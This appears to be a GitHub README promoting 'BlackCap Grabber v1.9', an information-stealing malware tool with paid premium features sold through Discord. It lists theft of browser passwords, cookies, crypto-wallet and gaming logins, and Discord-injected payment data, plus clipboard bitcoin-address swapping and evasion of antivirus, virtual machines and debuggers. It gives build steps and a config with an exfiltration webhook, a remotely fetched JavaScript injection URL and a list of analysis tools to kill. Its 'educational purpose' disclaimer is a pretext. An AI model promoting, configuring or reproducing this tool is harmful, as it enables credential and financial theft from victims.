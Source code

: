 <h1 align="center">
  🔰 BlackCap Grabber v1.9
</h1>
![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/Banner.png)



##### [:gem: Premium](https://discord.gg/blackcap) - [💡 Features](https://github.com/BlackCap-Grabber/Arizona#features) 



<h1 align="center">
  🔰 DISCORD.GG/BLACKCAP
</h1>

<h2 align="center">
  BlackCap Grabber was made with

Love ❌ code ✅

</h2>

**NOTE:** \
BlackCap was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/blackcap)
- [🎉・Setting up BlackCap](#setup)
- [⚙・Config](#config)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

# 💎 = Premium Features Join the discord to buy

```diff
> Default:

- Steal Steam / Minecraft / Metamask / Exodus / Roblox / NationGlory login
- Steal Chrome Passwords / Cookies / History
- Inject Discord / Discord Canary / Lightcord / Ripcord / Xcord
- Debug Killer (Kill task gestionary)
- Bypass TokenProtector / BetterDiscord
- Take a Screenshot
- Grabb System Informations
- Bypass Virus Total machines
- Bypass VM machines
- Hide Itself in Background
- Replace the BTC address copying by your (💎)
- Custom Installer / Setuper (💎)
- Icon / Name / Description Customizable (💎)
- Cookies Exploiter Tech (💎)
- Steal all Chromium Passwords and Cookies for OperaGX/Opera/GoogleChrome/Brave/Chromium/Torch/Edge/Mozilla and others (💎)
- 0/64 Detect Virus Total (.exe) (💎)
- Grabb Sensitive Files exodus login / a2f backup codes / tokens / passwords... (can be customizable) (💎)



> Injection:

- Nitro Auto Buy
- First Start Reporter
- New Passwords
- New Emails
- New Login
- New Credit Card
- New PayPal
- Anti Delete system (re install after Discord uninstall / Discord Update)
> + More!
```



## <a id="setup"></a> 📁 〢 Setting up BlackCap

1. Install [Python](https://www.python.org/downloads/)
2. Edit the Configuration [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52)
3. Double Click on [build.bat](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/build.bat) to build
4. You have your .exe file enjoy :)




## <a id="config"></a>⚙ 〢 Config

If you want to change the config (add your webhook), open up [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52) and locate it at the top. There you can configure the following:


```py 
{
    
__config__ = {
    'yourwebhookurl': "place your webhook here",#your discord webhook url 
    'blackcap_inject_url': "https://raw.githubusercontent.com/KSCHdsc/BlackCap-Inject/main/index.js",#my javascript injection (i recommand to not change)
    'hide': 'no',
    'kill_discord_process': True,#you want to hide grabber? ('yes' or 'no')
    'dbugkiller': True,#recommand to don't touch
    'blprggg':#don't touch this
    [
        "httpdebuggerui", 
        "wireshark", 
        "fiddler", 
        "regedit", 
        "cmd", 
        "taskmgr",
        "vboxservice", 
        "df5serv", 
        "processhacker", 
        "vboxtray", 
        "vmtoolsd", 
        "vmwaretray",
        "ida64", 
        "ollydbg", 
        "pestudio", 
        "vmwareuser", 
        "vgauthservice", 
        "vmacthlp",
        "x96dbg", 
        "vmsrvc", 
        "x32dbg", 
        "vmusrvc", 
        "prl_cc", 
        "prl_tools", 
        "xenservice",
        "qemu-ga", 
        "joeboxcontrol", 
        "ksdumperclient", 
        "ksdumper", 
        "joeboxserver"
    ]

}
}
```

---


## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.9 ⋮ 2022-26-10
+ bug fix to search token
+ error message fixed
+ build with pyinstaller fixed

```

<a href=#top>Back to Top</a></p>

### Authors
- [KSCHdsc](https://github.com/KSCHdsc)
- [002Sans](https://github.com/002-sans)

### Contributors (CapingTeam)
- Xenis
- Nono1337
- Irax212
- Shamroks

# Terms
- [x] Educational purpose only
- [x] Reselling is forbidden
- [ ] You can use the source code if you keep credits (in embed + in markdown), it has to be open-source
- [x] We are NOT responsible of anything you do with our software (if its illegal)

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/mona-loading-dark.gif)
